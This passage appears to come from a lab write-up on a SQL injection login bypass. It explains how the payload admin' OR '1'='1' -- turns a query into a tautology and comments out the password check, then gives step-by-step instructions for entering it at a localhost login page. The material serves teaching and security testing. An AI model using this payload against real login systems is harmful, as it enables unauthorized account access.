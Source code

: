 ### SQL Query Breakdown

**Intended Behavior:**
```sql
-- Normal query with safe inputs
SELECT username, role FROM users 
WHERE username = 'jerry' AND password = 'cheeselover'

-- Returns: { username: 'jerry', role: 'user' }
```

**Exploited Behavior:**
```sql
-- Malicious input: username = "admin' OR '1'='1' --"
SELECT username, role FROM users 
WHERE username = 'admin' OR '1'='1' --' AND password = 'anything'

-- Breaks down to:
-- 1. username = 'admin' (checks if admin exists)
-- 2. OR '1'='1' (always TRUE)
-- 3. -- (SQL comment, ignores rest of query)
-- 4. Password check never evaluated

-- Returns: First row in users table (usually admin)
```

### Why This Works

**SQL Parser Interpretation:**

1. **String Closure:** `'admin'` closes the username string
2. **Logical Operator:** `OR` introduces alternative condition
3. **Always True:** `'1'='1'` is a tautology (always evaluates to true)
4. **Comment Injection:** `--` comments out the password requirement
5. **Result:** Query returns first matching user (admin)

---

## Exploitation

### Method 1: Manual Browser Exploitation

**Step-by-Step Instructions:**

**Step 1:** Navigate to login page
```
http://localhost:8080/login
```

**Step 2:** Enter malicious payload

**Field:** Username  
**Value:** `admin' OR '1'='1' --`

**Field:** Password  
**Value:** `anything` (any value works)
